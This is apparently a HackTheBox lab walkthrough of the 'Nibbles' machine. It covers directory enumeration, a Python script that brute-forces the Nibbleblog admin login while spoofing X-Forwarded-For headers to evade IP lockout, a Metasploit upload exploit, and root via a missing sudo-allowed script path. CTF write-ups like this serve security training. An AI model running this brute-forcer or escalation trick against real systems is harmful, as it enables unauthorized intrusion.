+++
title = "Nibbles - HackTheBox"
date = 2021-03-07T23:54:03+11:00
lastmod = 2021-03-07T23:54:03+11:00
tags = ["HackTheBox", "Metasploit", "Nibbleblog", "Python scripting"]
categories = ["Boot2Root"]
imgs = []
cover = "https://www.hackthebox.eu/storage/avatars/344a8f99e8f7dddfed764f791e2731df.png"  # image show on top
readingTime = true  # show reading time after article date
toc = true
comments = true
justify = false  # text-align: justify;
single = true  # display as a single page, hide navigation on bottom, like as about page.
license = ""  # CC License
draft = false
+++

# Info

[Machine Profile](https://www.hackthebox.eu/home/machines/profile/121)

# Reconnaissance

A nmap scan shows us that ports 22 and 80 are open.

On port 80 runs a web server. By accessing it in web browser we can see:



So naturally we'll go to `/nibbleblog` and have a look.



Looks like that it's running a blog engine called Nibbleblog.

By running a gobuster enumeration we found some files and directories:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html,xxx,bak,old
[+] Timeout:        10s
===============================================================
2021/03/06 16:47:49 Starting gobuster
===============================================================
/sitemap.php (Status: 200)
/index.php (Status: 200)
/content (Status: 301)
/feed.php (Status: 200)
/themes (Status: 301)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
/LICENSE.txt (Status: 200)
```

Check `/README` file, we can find the version of Nibbleblog running on this server is `4.0.3`:


After a simple search we can find that Nibbleblog 4.0.3 has a file upload vulnerability, there's even a Metasploit module for it. But this requires a valid login credetial.

So I headed to `/admin.php`, and tried to brute force the password. Not long before I found that this machine has a blacklist mechanism which blocks IP addresses fail to login too many times:



Then I thought that maybe this server is vulnerable for client address confusion with HTTP headers. I found [this manual](https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c) that points out possible header names for this purpose. Next, I wrote a Python script to try a dictionary of passwords, with a random IP address for each request:

```python
import requests
import socket
import random
import threading
import time

class LockingCounter():
	def __init__(self):
		self.lock = threading.Lock()
		self.count = 0

	def increment(self):
		with self.lock:
			self.count += 1

def try_password(un, pw):
	ip = socket.inet_ntoa(random.randint(0,2**32).to_bytes(4, 'big'))
	headers = {'X-Originating-IP': ip, 'X-Forwarded-For': ip, 'X-Remote-Addr': ip}
	params = {'username': un, 'password': pw}
	r = requests.post('http://10.10.10.75/nibbleblog/admin.php', data=params, headers=headers)
	if 'Incorrect username or password.' not in r.text:
		print(params)
		print('Status code: ', r.status_code, r.text)

def iterate_dict(wordlist, counter):
	for pw in wordlist:
		try_password('admin', pw)
		counter.increment();

thread_count = 1
counter = LockingCounter()

passwords = open('/home/taylor/Documents/rockyou.txt', 'rb').read().split(b'\n')
total = len(passwords)

print('Total passwords: ', total)
print('Thread count: ', thread_count)

for i in range(thread_count):
	args = (passwords[i*total//thread_count: (((i+1)*total//thread_count) if i < thread_count - 1 else None)], counter)
	t = threading.Thread(target=iterate_dict, args=args)
	t.start()
	print('Thread %d started' %i)

while threading.active_count() > 1:
	print(counter.count, '/', total, ' done')
	time.sleep(60)

print(counter.count, '/', total, ' done')
```

At first I wanted to brute force with multiple threads. But later I found that this might break the server, makes the server only return `500` status code. So I finally fell back to a single thread.

After a short while, a password showed up:



The username and password are: `admin:nibbles`.

And we can now login to the admin dashboard of Nibbles:



We can see on the right side many failed logins (made by me) from a lot of (fake) IP addresses ;)

# Intial foothold

Now that we had the valid credentials, we can use the Metasploit module:



And, here, we go:



And we can get the user flag:




# Escalation

By running [`linpeas.sh`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we notice something interesting:



As user `nibbler`, we can run `/home/nibbler/personal/stuff/monitor.sh` as root without password with `sudo`. And there's no `personal` directory under `nibbler`'s home directory. This means we can simply create the `personal/stuff/monitor.sh` file under home directory that include any command we need. Easy root :)



And we can get root's flag:



